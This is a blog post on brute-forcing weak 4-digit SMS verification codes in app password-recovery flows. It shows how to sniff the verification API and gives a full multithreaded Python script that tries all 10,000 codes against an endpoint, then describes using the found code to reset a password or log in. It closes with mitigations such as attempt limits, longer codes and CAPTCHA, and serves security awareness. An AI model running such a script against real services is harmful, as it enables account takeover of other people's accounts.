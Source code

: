 ```yaml
---
title: "Security Issues with SMS Verification Code Strength in Password Recovery"
author: "ZhgChgLi"
date: 2021-03-14T15:57:38.256+0000
last_modified_at: 2024-04-13T16:30:08.749+0000
categories: ["ZRealm Dev."]
tags: ["ios-app-development","hacker","web-security","password-security","security-token"]
description: "Demonstrating the severity of brute-force attacks using Python"
image:
  path: /assets/99a6cef90190/1*xtbLIfJ6KELkGYeVCnzSFg.jpeg
render_with_liquid: false
---
```


### Security Issues with SMS Verification Code Strength in Password Recovery

Demonstrating the severity of brute-force attacks using Python



![Photo by [Matt Artz](https://unsplash.com/@mattartz?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText){:target="_blank"}](/assets/99a6cef90190/1*xtbLIfJ6KELkGYeVCnzSFg.jpeg)

Photo by [Matt Artz](https://unsplash.com/@mattartz?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText){:target="_blank"}
### Introduction

This article does not contain much technical content related to information security; it is simply a spontaneous thought that arose while using a certain platform's website. I thought I would test the security, and I discovered some issues.

When using the password recovery feature on websites or APP services, there are generally two options: one is to enter the account or email, after which a link to a password reset page containing a token will be sent to the email. Clicking on the link opens the page to reset the password, which is not problematic unless there are design flaws as mentioned in [the previous article](../142244e5f07a/).

The other method for password recovery is to enter the bound mobile phone number (mostly used in APP services), after which an SMS verification code will be sent to the phone. Once the verification code is entered, the password can be reset. However, for convenience, most services use pure numbers as verification codes. Additionally, since iOS ≥ 11 introduced the [Password AutoFill](../948ed34efa09/) feature, when the phone receives the verification code, the keyboard automatically detects it and prompts the user.

![](/assets/99a6cef90190/1*f7frmgNsLwW1Q9e9QtAt1A.png)

According to the [official documentation](https://developer.apple.com/documentation/security/password_autofill/about_the_password_autofill_workflow){:target="_blank"}, Apple has not provided the format rules for automatic filling of verification codes. However, I have observed that almost all services that support auto-fill use pure numbers, suggesting that only numbers can be used and not complex combinations of numbers and letters.
### Issues

Due to the possibility of brute-force attacks on numeric passwords, especially 4-digit passwords, the combinations range from 0000 to 9999, totaling 10,000 combinations. Using multiple threads and machines can facilitate grouped brute-force attacks.

Assuming the verification request requires a 0.1-second response time, for 10,000 combinations = 10,000 requests
```
Time required for cracking attempts: ((10,000 * 0.1) / number of threads) seconds
```

Even without using threads, it would only take about 16 minutes to try and find the correct SMS verification code.


> _In addition to insufficient password length and complexity, there are two other issues: the lack of a limit on the number of attempts for the verification code and an excessively long validity period._ 




### Combinations

In summary, this security issue is commonly found on the APP side; web services usually implement CAPTCHA verification after multiple failed attempts or require additional security questions when requesting a password reset, increasing the difficulty of sending verification requests. Additionally, if the web service's verification does not separate the front and back end, each verification request must retrieve the entire webpage, extending the request response time.

On the APP side, due to process design and user convenience, the password reset process is often simplified. Some APPs even allow login through mobile number verification; if there is no protection on the API side, it can lead to security vulnerabilities.
### Practice


> ⚠️Warning⚠️ This article is solely to demonstrate the severity of this security issue; please do not use it for malicious purposes. 



#### Sniffing Verification Request API

Everything starts with sniffing, and this part can refer to previous articles " [APP uses HTTPS for transmission, but data is still stolen.](../46410aaada00/) " and " [Using Python + Google Cloud Platform + Line Bot to automate routine tasks](../70a1409b149a/) ". For understanding the principles, I recommend using the [Proxyman](https://proxyman.io/){:target="_blank"} tool mentioned in the second article for sniffing.

```markdown
![](/assets/99a6cef90190/1*22uVkKdpDXnwEygDa9lwyA.png)

If it is a front-end and back-end separated website service, you can also use Chrome -> Inspect -> Network -> View what requests were made after submitting the verification code.

![](/assets/99a6cef90190/1*Skm69eJiZKeK4_QUU0wIoQ.png)

**Assuming the verification code request received is:**
```
POST https://zhgchg.li/findPWD
```

**Response:**
```
{
   "status": false,
   "msg": "Verification error"
}
```
#### Writing a Brute Force Python Script

crack.py:
```python
import random
import requests
import json
import threading

phone = "0911111111"
found = False
def crack(start, end):
    global found
    for code in range(start, end):
        if found:
            break
        
        stringCode = str(code).zfill(4)
        data = {
            "phone": phone,
            "code": stringCode
        }

        headers = {}
        try:
            request = requests.post('https://zhgchg.li/findPWD', data=data, headers=headers)
            result = json.loads(request.content)
            if result["status"] == True:
                print("Code is:" + stringCode)
                found = True
                break
            else:
                print("Code " + stringCode + " is wrong.")
        except Exception as e:
            print("Code " + stringCode + " exception error (" + str(e) + ")")

def main():
    codeGroups = [
        [0, 1000], [1000, 2000], [2000, 3000], [3000, 4000], [4000, 5000],
        [5000, 6000], [6000, 7000], [7000, 8000], [8000, 9000], [9000, 10000]
    ]
    for codeGroup in codeGroups:
        t = threading.Thread(target=crack, args=(codeGroup[0], codeGroup[1],))
        t.start()

main()
```

After running the script, we get:

![](/assets/99a6cef90190/1*jGp69g9H1BjLqq6SdIHRBw.png)

```
The verification code is: 1743
```

Use `1743` to reset the password, change the original password, or log in directly to the account.

> Bigo!

### Solutions
- Increase more information verification for password resets (e.g., birthday, security questions)
- Increase the length of the verification code (e.g., Apple 6-digit numbers), increase the complexity of the verification code (if it does not affect AutoFill functionality)
- Make the verification code invalid after more than 3 incorrect attempts, requiring the user to resend the verification code
- Shorten the validity period of the verification code
- Lock the device after too many incorrect attempts of the verification code, add CAPTCHA
- Implement SSL Pinning in the app, encrypt and decrypt transmissions (to prevent sniffing)

### Further Reading
- [Revealing a clever website vulnerability discovered a few years ago](../142244e5f07a/)
- [How to create an interesting engineering CTF competition](../729d7b6817a4/)
- [The app uses HTTPS for transmission, but data was still stolen.](../46410aaada00/)
- [Using Python + Google Cloud Platform + Line Bot to automate routine tasks](../70a1409b149a/)
```

If you have any questions or suggestions, feel free to [contact me](https://www.zhgchg.li/contact){:target="_blank"}.

_[Post](https://medium.com/zrealm-ios-dev/%E6%89%BE%E5%9B%9E%E5%AF%86%E7%A2%BC%E4%B9%8B%E7%B0%A1%E8%A8%8A%E9%A9%97%E8%AD%89%E7%A2%BC%E5%BC%B7%E5%BA%A6%E5%AE%89%E5%85%A8%E5%95%8F%E9%A1%8C-99a6cef90190){:target="_blank"} converted from Medium by [ZMediumToMarkdown](https://github.com/ZhgChgLi/ZMediumToMarkdown){:target="_blank"}._
